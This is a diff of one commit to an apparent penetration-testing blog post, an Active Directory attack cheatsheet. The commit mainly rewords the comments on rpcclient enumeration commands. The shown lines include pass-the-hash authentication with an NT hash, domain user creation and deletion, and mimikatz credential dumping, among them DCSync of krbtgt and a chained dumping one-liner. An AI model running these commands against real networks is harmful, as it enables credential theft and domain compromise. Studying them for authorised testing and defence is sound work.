

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 6293 px. Shown: the whole window at 91% size, without its empty margins (228-1267 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2024-11-01-Attacking-Active-Directory-Cheatsheet.md

````diff
--- a/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
+++ b/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
@@ -218,21 +218,21 @@ rpcclient -U "username%password" 172.16.150.10
 rpcclient //172.16.150.10 -U vorkharium.com/john%1a06b4248879e68a498d3bac51bf91c9 --pw-nt-hash
 
 # All RPC Queries
-srvinfo                   # Retrieves server information, including the OS version and domain.
-enumdomusers              # Enumerates domain users, listing all users in the specified domain.
-enumpriv                  # Enumerates the current user's privileges, similar to the "whoami /priv" command.
-queryuser john            # Retrieves detailed information for the specified user (e.g., 'john').
-getuserdompwinfo <RID>    # Retrieves the domain password policy for a specific user, requires the user's RID from "queryuser".
-lookupnames john          # Finds and displays the SID (Security Identifier) for the specified user (e.g., 'john').
-createdomuser john        # Creates a new user in the domain with the specified username (e.g., 'john').
-deletedomuser john        # Deletes the specified user from the domain (e.g., 'john').
-enumdomains               # Lists all domains that are accessible within the current network.
-enumdomgroups             # Lists all groups in the domain, including their names and RIDs.
-querygroup <group-RID>    # Displays detailed information for a specific group, requires the group's RID from "enumdomgroups".
-querydispinfo             # Lists descriptions of all users in the domain.
-netshareenum              # Enumerates all shared network resources, requires necessary permissions of the current user.
-netshareenumall           # Enumerates all shared network resources, regardless of user permissions.
-lsaenumsid                # Lists SIDs for all users on the system.
+srvinfo # Get server OS and domain info
+enumdomusers # List all domain users
+enumpriv # Show current user’s privileges
+queryuser john # Get info on user "john"
+getuserdompwinfo <RID> # Fetch domain password policy by user's RID
+lookupnames john # Get SID for user "john"
+createdomuser john # Add user "john" to the domain
+deletedomuser john # Remove user "john" from the domain
+enumdomains # List accessible domains
+enumdomgroups # List all domain groups
+querygroup <group-RID> # Get details on a group by RID
+querydispinfo # Describe all domain users
+netshareenum # List shared resources (user permission needed)
+netshareenumall # List all shared resources (all access)
+lsaenumsid # List all user SIDs on the system
 ```
 ### GPP cpassword
 Check if we can find a file called Groups.xml inside SYSVOL folder through SMB Shares access. This file contains a "cpassword" field. To decrypt the hash in the cpassword field we can use the following command:
@@ -526,7 +526,7 @@ sekurlsa::logonpasswords # Hashes and plaintext passwords
 lsadump::sam
 lsadump::sam SystemBkup.hiv SamBkup.hiv
 lsadump::dcsync /user:krbtgt
-lsadump::lsa /patch # Both of these dump SAM
+lsadump::lsa /patch
 
 # One-liners
 .\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
````
